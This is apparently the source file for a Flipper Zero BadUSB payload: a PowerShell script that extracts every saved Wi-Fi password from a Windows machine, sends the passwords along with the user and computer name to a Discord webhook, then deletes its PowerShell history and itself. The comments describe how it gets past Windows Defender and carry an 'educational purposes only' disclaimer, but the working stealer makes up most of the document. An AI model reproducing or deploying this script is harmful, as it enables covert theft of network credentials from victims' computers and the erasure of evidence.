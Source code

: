 # FlipperZero

############################################################################################
###########      Place your webhook in the "Your-Discord-Webhook-Here" field      ##########
############################################################################################

#      Below is the final copy of the script before the BadUSB attack executes the payload.
#      The issue i found with other WiFi stealing BadUSB attacks was that the payload is hosted 
#      online and the HID simply attempted to download/run the script. Every single time I attempted
#      one of these attacks, defender would step in and catch it before it executed.
#
#      My script does NOT host anything online. The script is yours to edit and audit. 
#      The idea behind the script is that the HID uses the run dialogue box to create an empty .ps1
#      file in the C:\Users\Public\ directory and appends each line of my code to that file.
#      The file line of the BadUSB attack executes the script, which sends your discord webhook
#      a message, and then the payload deletes the file it created.
#
#
#
#      THIS SCRIPT IS FOR EDUCATIONAL PURPOSES ONLY AND I AM NOT RESPONSIBLE FOR MISTAKES YOU MAKE
#
#
#

$d="Your-Discord-Webhook-Here"
$s="$env:USERNAME@$env:COMPUTERNAME"
$o=@()
(netsh wlan show profiles) | ? { $_ -match ":\s(.+)$" } | % {
    $n = ($_ -split ":")[-1].Trim()
    $p = (netsh wlan show profile name="$n" key=clear | sls "Key Content").Line
    if ($p) { $p = ($p -split ":")[-1].Trim() } else { $p = "<NO_PASSWORD>" }
    $o += "$n : $p"
}
$w = $o -join "`n"
if ($w) { irm $d -Method Post -Body (@{username=$s; content="**Wi-Fi Passwords**`n`n$w"} | ConvertTo-Json) -ContentType "application/json" | Out-Null } else {
    irm $d -Method Post -Body (@{username=$s; content="**Error**: Check 'netsh wlan show profiles' manually."} | ConvertTo-Json) -ContentType "application/json" | Out-Null
}
del (Get-PSReadlineOption).HistorySavePath -ea 0
Remove-Item -Path $MyInvocation.MyCommand.Path -Force
Start-Sleep 2
[System.GC]::Collect()
